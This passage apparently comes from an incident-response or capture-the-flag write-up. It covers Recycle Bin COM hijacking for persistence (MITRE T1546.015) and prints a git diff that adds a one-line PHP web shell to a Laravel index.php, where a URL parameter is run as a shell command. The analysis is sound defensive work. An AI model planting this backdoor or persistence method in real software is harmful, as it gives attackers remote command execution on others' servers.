 ![](/assets/images/posts/2025-07-22-ReliableThreat/07.png)

The registry key `SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell` is associated with the Recycle Bin. The `open\command` subkey is a standard subkey used to define the command that gets executed when the default action (usually 'Open') is performed on an object. By setting the value of `SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command` to a PowerShell command, the malware is attempting to achieve persistence through user interaction, as it ensures that the malware executes every time the user opens the Recycle Bin. This behavior corresponds to `Event Triggered Execution` (T1546) and the most suitable subtechnique is `Component Object Model Hijacking` [T1546.015](https://attack.mitre.org/techniques/T1546/015/).


The questions mentioned that the attacker added malicious code into one of the projects. While inspecting the Laravel project, I found that one of the files was modified, and the line `$testc = $_GET['s1']; echo` `` `$testc` `` `;` was added.

```
$ git diff
diff --git a/public/index.php b/public/index.php
index 9da023e..7d23163 100644
--- a/public/index.php
+++ b/public/index.php
@@ -11,6 +11,8 @@

 // Register the Composer autoloader...

+$testc = $_GET['s1']; echo `$testc`;
+
 require __DIR__.'/../vendor/autoload.php';
```

